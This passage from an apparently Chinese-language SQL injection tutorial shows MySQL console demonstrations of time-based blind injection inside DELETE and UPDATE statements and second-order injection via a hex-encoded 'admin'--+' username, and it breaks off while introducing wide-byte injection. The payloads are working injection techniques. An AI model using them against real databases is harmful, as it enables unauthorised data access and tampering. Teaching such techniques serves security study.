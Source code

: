 ```

mysql> delete from admin where id =-2 or if((substr((select user()),1,1)='r'),sleep(5),0);
Query OK, 0 rows affected (5.00 sec)

#update 更新数据内容
mysql> select \* from admin;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    2 | 1        | admin    |
|    2 | 1        | admin    |
|    2 | 1        | admin    |
|    2 | admin    | admin    |
+------+----------+----------+
4 rows in set (0.00 sec)

mysql> update admin set id="5"+sleep(5)+"" where id=2;
Query OK, 4 rows affected (20.00 sec)
Rows matched: 4  Changed: 4  Warnings: 0


```

### 1.5 二次注入与宽字节注入

二次注入的语句：在没有被单引号包裹的 sql 语句下，我们可以用 16 进制编码他，这样就不会带有单引号等。

```
mysql> insert into admin (id,name,pass) values ('3',0x61646d696e272d2d2b,'11');
Query OK, 1 row affected (0.00 sec)

mysql> select \* from admin;
+----+-----------+-------+
| id | name      | pass  |
+----+-----------+-------+
|  1 | admin     | admin |
|  2 | admin'111 | 11111 |
|  3 | admin'--+ | 11    |
+----+-----------+-------+
4 rows in set (0.00 sec)


```

二次注入在没有源码的情况比较难发现，通常见于注册，登录恶意账户后，数据库可能会因为恶意账户名的问题，将 admin'--+ 误认为 admin 账户

CopyCopyCopyCopyCopy

宽字节注入：针对目标做了一定的防护，单引号转变为

`\'`

, mysql 会将
